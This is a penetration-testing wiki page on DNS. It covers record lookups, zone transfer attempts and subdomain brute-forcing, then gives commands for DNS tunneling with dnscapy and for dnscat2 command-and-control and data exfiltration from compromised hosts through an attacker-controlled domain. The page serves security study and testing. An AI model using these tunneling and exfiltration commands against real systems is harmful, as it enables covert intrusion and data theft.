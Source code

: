```yaml
---
authors: 'ShutdownRepo, Tednoob17'
category: infra
---
```


# 🛠️ DNS

## Theory

The Domain Name System (DNS) is a fundamental protocol of the Internet that translates human-readable domain names into IP addresses. It functions as a distributed database system that enables computers to resolve domain names to the corresponding network addresses required for network communication.

DNS operates on port 53 by default and uses both TCP and UDP protocols. The system is hierarchical, with root servers at the top, followed by Top-Level Domain (TLD) servers, and authoritative name servers for specific domains.

## Practice

### Enumeration

DNS enumeration involves gathering information about a domain's DNS infrastructure. This can be accomplished through various methods and tools.

#### DNS Queries

:::tabs

=== dig
The dig utility performs DNS lookups and displays responses from name servers.

```bash
# Query A records (IP addresses)
dig thehacker.recipes A

# Query name server records
dig thehacker.recipes NS

# Trace DNS resolution path
dig thehacker.recipes +trace
```

=== nslookup
nslookup provides DNS query functionality and debugging capabilities.

```bash
# Standard DNS query
nslookup thehacker.recipes

# Query mail exchange records
nslookup -type=MX thehacker.recipes

# Query specific DNS server
nslookup thehacker.recipes $DNS_IP
```

=== host
host performs DNS lookups with a simplified interface.

```bash
# Basic DNS query
host thehacker.recipes

# Query mail exchange records
host -t MX thehacker.recipes

# Reverse DNS lookup
host $IP_ADDRESS
```

=== whois
whois retrieves registration information for domains.

```bash
# Domain registration lookup
whois thehacker.recipes
```
:::

#### Zone Transfers
Zone transfers (AXFR requests) are a DNS protocol feature that allows a secondary DNS server to receive all DNS records from a primary DNS server. While legitimate for DNS replication, misconfigured servers allowing unauthorized zone transfers can expose complete domain information to potential attackers.

Common signs of misconfiguration include:
- Allowing zone transfers from any source IP
- Missing ACLs for AXFR requests
- Exposed internal DNS records

```bash
# Basic zone transfer attempt
dig axfr @$DNS_IP $DOMAIN

# Zone transfer specifying name server
dig axfr $DOMAIN @ns1.$DOMAIN

# Using host command for zone transfer
host -t axfr $DOMAIN $DNS_IP

# Alternative using fierce for zone transfers
fierce --domain $DOMAIN --dns-servers $DNS_IP
```

> [!NOTE]
> Modern DNS servers typically restrict zone transfers by default. Success usually indicates a misconfiguration.

#### Subdomain Enumeration
DNSRecon enables comprehensive DNS reconnaissance, including subdomain discovery and record analysis.

```bash
# Basic domain enumeration
dnsrecon -d example.com

# Brute force with wordlist
dnsrecon -d example.com -D $WORDLIST -t std --xml $OUTPUT.xml
```

### Attacks

#### DNS Tunneling
DNS tunneling exploits DNS protocol for data exfiltration or command and control communication. While legitimate uses exist (e.g., software updates), the technique is often employed maliciously.

```bash
# Server configuration
sudo python dnscapy_server.py $DELEGATED_ZONE_NAME $EXTERNAL_IP_ADDR

# Client configuration
ssh -o ProxyCommand="sudo python dnscapy_client.py $DELEGATED_ZONE_NAME $IP_ADDR_OF_CLIENT_DNS" yourlogin@localhost
```

#### DNS Cache Snooping
Cache snooping enables examination of a DNS server's cache to determine recently queried domains.

```bash
# Perform cache snooping
dig @$DNS-SERVER $DOMAIN +norecurse
```

### Post-Exploitation

#### DNS Exfiltration
DNS exfiltration leverages DNS queries to extract data from compromised systems. dnscat2 provides encrypted command-and-control capabilities over DNS.

```bash
# Server setup
dnscat2 --dns server=$DNS_SERVER_IP:53

# Client connection
dnscat2 $DOMAIN
```

## Resources

* [HTB Academy - Information Gathering-Web Edition](https://academy.hackthebox.com/module/144/section/1251)
* [Kali Tools - DNSRecon Documentation](https://www.kali.org/tools/dnsrecon)
* [Common DNS Attack Types](https://bluecatnetworks.com/blog/four-major-dns-attack-types-and-how-to-mitigate-them)
* [DNS Tunneling Techniques](https://www.blackhat.com/presentations/bh-usa-08/Miller/BH_US_08_Ty_Miller_Reverse_DNS_Tunneling_Shellcode.pdf)
